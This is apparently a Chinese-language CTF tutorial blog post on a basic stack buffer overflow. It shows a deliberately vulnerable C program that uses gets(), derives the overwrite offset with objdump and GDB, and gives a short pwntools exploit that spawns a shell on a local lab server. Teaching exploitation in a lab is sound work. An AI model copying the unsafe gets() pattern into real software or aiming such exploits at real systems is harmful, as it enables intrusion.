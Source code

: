 ```yaml
---
title: "Day6－Basic buffer overflow"
date: 2024-09-06
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

經歷了前面的許多基礎知識與工具介紹，終於來到了第一個漏洞與第一個 lab。而這個漏洞可以說是最簡單也最基本的，就是 **Buffer Overflow**。

## 介紹

首先，先來看一個簡單例子。假如一個程式宣告了一些變數及字串，記憶體中的狀態可能會是下圖的樣子：

![image](/images/iron2024/day6_image1.png)

如果對 `buf` 字串輸入正常大小的資料，例如這邊宣告的空間是 0x10（16 bytes），輸入 0x10 個 'A'，記憶體狀態可能會像下圖這樣：

![image](/images/iron2024/day6_image2.png)

然而，當使用一些不安全的函式來輸入數據時，例如 `gets` 函式，可能會產生問題。因為 `gets` 不會檢查輸入的長度，因此可能會覆蓋到 `buf` 後面的變數，甚至是 `rbp` 或 `return address`。以下例子顯示了覆蓋到後面變數 `num3` 和 `num4` 的情況：

![image](/images/iron2024/day6_image3.png)

如果對填入的值進行精確的編排，則可能成為如下所示的情況：

![image](/images/iron2024/day6_image4.png)

這就是最基本的 **Buffer Overflow** 例子。

## Lab

查看以下程式原始碼

```c=
#include<stdio.h>
int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    int a = 10;
    printf("Please input your name: ");
    char b[10];
    gets(b);
    if(a == 0xdeadbeef){
        system("/bin/sh");
    }
    printf("Hello, %s\n", b);
    return 0;
}
```

使用以下指令進行編譯

```sh=
gcc ./src/bof.c -o ./bof/share/bof -fno-stack-protector
```

大家可以先行使用 GDB 搭配 pwntools 實作題目。如果想提前了解解答，可以繼續閱讀本文中的解說。

## writeup

可以發現程式在第 9 行使用了上面提到的 `gets` 函式來讀取 `b` 字串。接下來，有一個判斷條件是檢查變數 `a` 是否等於 `0xdeadbeef`，如果相等，則會開啟一個 shell。因此，我們的目標有以下兩點：

- 找出需要填充多少字元才能將 `a` 覆蓋為 `0xdeadbeef`。
- 如何將值覆蓋成 `0xdeadbeef`。
為了解決第一個問題，我們可以使用 `objdump` 來 disassemble 程式。會發現在 `gets` 函式之前，程式會為 `buf` 分配空間，對 `lea rax,[rbp-0xe]` 記憶體進行操作。接著，在輸入結束後，程式會使用 `cmp DWORD PTR [rbp-0x4],0xdeadbeef` 進行比較。這告訴我們填充的字元數量是 `0xe - 0x4 = 0xa`，即 10 個字元。

![image](/images/iron2024/day6_image5.png)

當然，除了使用 `objdump` 進行 disassemble 外，也可以使用 GDB 直接觀察程式。首先，使用 GDB 啟動程式（如 `gdb ./bof`），設置斷點在 `main` 函式處（`b main`），並執行程式（`r`）。接著，逐步執行程式（`ni`），直到輸入字串處。這時，我們可以輸入有規律的字元，觀察覆蓋位置，例如輸入 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ。

![image](/images/iron2024/day6_image6.png)

輸入後，我們可以檢查記憶體中的值，會發現覆蓋了兩個 `0x43` 和四個 `0x44`，即 `CCDDDD`。依照剛剛的輸入字串，發現我們需要覆蓋 `AAAABBBBCC`，也就是 `10` 個字元。

![image](/images/iron2024/day6_image7.png)

接下來，我們需要使用 `pwntools` 將 `0xdeadbeef` 覆蓋到適當的位置。使用 `checksec` 可以確認這個檔案是 64 位元，這樣我們就可以使用 `p64()` 來將 `0xdeadbeef` 轉換成 `64` 位格式並覆蓋變數。

![image](/images/iron2024/day6_image8.png)

以下會發現我有留了一行遠端連線的程式碼，這是因為筆者的檔案有附上 docker-compose.yml 跟 DockerFile 跟 xinetd，所以可以讓讀者將題目架起來並實際做練習

完整 exploit：

```py=
from pwn import *
# r = process('./bof')
r = remote('127.0.0.1', 10000)
r.sendlineafter(b'Please input your name: ', b'AAAAAAAAAA' + p64(0xdeadbeef))
r.interactive()
```

以下是將題目實際架起來並拿到 flag 的結果

solved！！

![image](/images/iron2024/day6_image9.png)
